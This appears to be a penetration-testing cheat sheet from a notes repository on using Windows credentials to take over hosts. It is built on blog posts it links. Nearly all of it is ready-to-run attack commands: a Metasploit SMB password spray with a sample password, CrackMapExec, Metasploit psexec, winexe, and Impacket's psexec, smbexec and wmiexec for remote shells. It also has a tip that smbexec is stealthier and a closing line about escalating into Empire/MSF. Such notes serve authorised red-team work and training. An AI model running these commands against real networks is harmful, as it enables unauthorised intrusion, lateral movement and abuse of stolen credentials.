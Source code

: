 --- Source ---

https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/

https://blog.ropnop.com/practical-usage-of-ntlm-hashes/

## ------ From Kali ------ ##

### --- Spray and Pray--- ###

```
msf > use auxiliary/scanner/smb/smb_login  
msf auxiliary(smb_login) > set SMBDomain CSCOU  
SMBDOMAIN => CSCOU  
msf auxiliary(smb_login) > set SMBUser jarrieta  
SMBUser => jarrieta  
msf auxiliary(smb_login) > set SMBPass nastyCutt3r  
SMBPass => nastyCutt3r  
msf auxiliary(smb_login) > services -p 445 -R  
msf auxiliary(smb_login) > run
```
*Note: Any succesfull logins will be stored in the msf database. View them with:* ```creds```

### --- CrackMapExec --- ###

Testing credentials and launching attacks on a large number of hosts
```python crackmapexec.py $ip_or_range -d $domain -u $user -p $password```


### --- Metasploit psexec --- ###

```use exploit windows/smb/psexec```

NOTE: ```auxiliary/admin/smb/psexec_command``` if you want to just run a single command. This module can also take a range of RHOSTS


### --- Winexe --- ###

An old *nix tool to execute Windows commands remotely. Built in to Kali or available here.
You can execute a single command or drop right into a command prompt:

```winexe -U $domain/$user%$password //$host_ip cmd.exe```


### --- psexec.py --- ###

Impacket

NOTE: Use clone in ```/opt```
```python psexec.py $domain/$user:$password@ip_address```


### --- smbexec --- ###
Impacket

This one is a bit "stealthier" as it doesn't drop a binary on the target system.
Commands and output are asynchronous

```python smbexec.py $domain/$user:$password@ip_address```


### --- wmiexec.py --- ###

Impacket

Under the hood this one uses Windows Management Instrumentation (WMI) to launch a semi-interactive shell.

```python wmiexec.py $domain/$user:$password@ip_address```


### --- CrackMapExec --- ###

You can also use CrackMapExec to execute commands on hosts by passing it the "-x" parameter.
Since it's built on Impacket's libraries, it's basically doing the exact same thing as wmiexec.py.
But let's you do it across a range of IPs

```python crackmapexec.py $ip_address -d $domain -u $user -p $pass -x $cmd```


### --- Remote Desktop/rdp_check --- ###

Impacket

```python rdp_check.py $domain/$user:$pass@$ip_address```

NOTE: Use these to get code execution and elevate into Empire/MSF



